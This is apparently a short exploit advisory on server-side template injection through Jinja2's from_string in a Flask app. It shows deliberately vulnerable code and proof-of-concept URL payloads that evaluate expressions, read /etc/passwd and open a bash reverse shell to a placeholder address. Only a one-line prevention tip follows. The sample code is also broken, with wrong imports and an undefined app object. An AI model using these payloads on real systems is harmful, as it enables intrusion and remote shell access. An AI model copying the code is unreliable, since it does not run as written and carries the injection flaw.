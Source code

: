#Jinja2 Command injection from_string function \n
#Website: Ordina.nl \n
Author: Jameel Nabbo  \n
Email: jameel.nabbo[at]ordina.nl  \n

// from_string function is prone to SSTI where it takes the "source" parameter as a template object and render it and then return it.


//here's an example about the vulnerable code that uses from_string function in order to handle a variable in GET called 'username' and returns Hello {username}:


import Flask
import request
import Jinja2


@app.route("/")
def index():
	username = request.values.get('username')
	return Jinja2.from_string('Hello ' + username).render()


if __name__ == "__main__":
	app.run(host='127.0.0.1' , port=4444)

POC
//Exploiting the username param
http://localhost:4444/?username={{4*4}}
OUTPUT: Hello 16

Reading the /etc/passwd

http://localhost:4444/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}


Getting a reverse shell 
http://localhost:4444/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }}


How to prevent it:
Never let the user provide template content.
